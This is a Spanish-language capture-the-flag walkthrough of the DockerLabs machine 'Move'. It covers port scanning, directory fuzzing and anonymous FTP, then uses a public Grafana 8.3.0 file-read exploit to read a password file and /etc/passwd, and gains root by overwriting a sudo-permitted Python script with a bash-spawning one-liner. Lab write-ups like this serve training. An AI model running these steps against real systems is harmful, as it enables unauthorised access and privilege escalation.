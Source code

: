 # 📘 Informe Técnico - Máquina: *Move*

* **Nivel:** Fácil
* **Propósito:** 
* **Objetivo:** 
---

![Logo](Imágenes/2025-05-15_16-55.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip move.zip
```

Posteriormente, desplegamos la máquina vulnerable usando el siguiente comando:

```bash
sudo bash auto_deploy.sh move.tar
```

![Desplegar](Imágenes/Capturas.png)


Verificamos que la máquina esté activa con un `ping` al contenedor:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap Puertos](Imágenes/Capturas_2.png)

Luego usamos `extractPorts` para filtrar los puertos detectados y escaneamos con más detalle:

```bash
nmap -sCV -p80,22,21 172.17.0.3 -oG target.txt
```

![Nmap detallado](Imágenes/Capturas_3.png)

### 🔍 Resultado:

* **Puerto 80**: Servicio HTTP activo (servidor web).

* **Puerto 22**: Servicio SSH activo (servicio SSH).

* **Puerto 21**: Servicio FTP activo (servicio FTP con el usuario Anonymous).
Nota: Podemos entrar al servico FTP sin necesidad de tener credenciales porque esta activo el usuario Anonymous.
---

Entramos http://172.17.0.3/ para ver el servico web y es la pagina defaul de apache2.

![Pagina](Imágenes/Capturas_4.png)

Realice fuzzin con gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt

![Fuzzing](Imágenes/Capturas_5.png)

Y se encotro http://172.17.0.3/maintenance.html donde se encontro una ruta /tmp/pass.txt

![Fuzzing](Imágenes/Capturas_6.png)

Entramos al servicio de FTP con el usuario Anonymous y al pedrnos contraseña le damos enter
![Fuzzing](Imágenes/Capturas_7.png)

Con ls -la vemos los directorios que hay encontrmos mantenimiento nos movemos con cd mantenimiento y ls -la para verlo sus directorios y encontramos database.kdbx lo descargamos con: get database.kdbx
![Fuzzing](Imágenes/Capturas_8.png)

Despues estube probando puertos que podrian estar abierto y encontre el puerto 3000
![Open](Imágenes/Capturas_9.png)

al entrar en la direccion http://172.17.0.3:3000/login nos da una pagina para registranos en grafana y en la parte inferior izquierda podemos notar que esta desactualizado y nos muestra que estamos en la version v8.3.0 (914fcedb7)
![Registro](Imágenes/Capturas_10.png)

con el comando: searchsploit Grafana 8.3.0 buscamos algiua vulnerabilidad y encotramos la vulnerabilidad  multiple/webapps/50581.py lo descagamos con searchsploit -m multiple/webapps/50581.py y lo ejecutamos con:
python3 50581.py -H http://172.17.0.3:3000 nos habre una terminal y ejecutamos un /tmp/pass.txt con la ruta encontrada en uno de los directorios y encontramos una contraseña: t9sH76gpQ82UFeZ3GXZS
![contraseña](Imágenes/Capturas_11.png)

Ahora con una contraseña necesitamos un usuario ejecutamos /etc/passwd para buscar usuarios y encontramos:freddy
![Usuarios](Imágenes/Capturas_12.png)


Entre al servicio ftp con estas credenciales y en cd /opt encotre maintenance.py lom descargue con get maintenance.py contenia un print("Server under beta testing") 
![py](Imágenes/Capturas_13.png)

Entre con las credenciales encontradas y ejecute sudo -l que me dio la ubicacion de un script con permisos     (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py accedi a eñ con cd /opt/ lo elimine rm maintenance.py crre un archivo:
echo 'import os; os.system("/bin/bash")' > /opt/maintenance.py le di privilegios chmod +x /opt/maintenance.py  y lo ejecute sudo /usr/bin/python3 /opt/maintenance.py y accedi a root
![root](Imágenes/Capturas_13.png)

Nota probablemete exita otro metodo de resolverlo por datos que recopile.















